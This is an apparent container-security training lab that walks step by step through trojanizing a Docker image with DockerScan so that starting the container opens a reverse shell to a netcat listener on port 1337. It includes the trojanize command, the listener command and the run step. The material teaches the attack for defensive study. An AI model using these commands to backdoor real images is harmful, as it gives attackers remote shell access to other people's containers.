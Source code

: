 # Trojanized Docker Images - DockerScan
> A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container

### **Lab Image : Containers**

---

* Step 1: Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Step 2: Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```


* Step 3: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```

* Step 4: Trojanize the saved docker to create a `.tar` file

>> Note: `$(serverip)` will automatically takes your server ip. 

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

* Step 5: Run `netcat` command 

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
nc -v -k -l $(serverip) 1337
```

* Step 6: Switch to the left panel using `ctrl + b` and then `left arrow key` 

* Step 7: Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

Step 8: When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

* Step 9: Switch to the right panel using `ctrl + b` and then `right arrow key`

* Step 10: Type `ls` command and weather you have achieved persistence through the reverse shell.

```commandline
ls
```


### Teardown:

* Step 11: Exit from the `reverse shell` type `ctrl + c`

```commandline
ctrl + c
```

* Step 12: Exit from the `tmux` shell

```commandline
exit
```

```commandline
exit
```

* Step 13: Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan
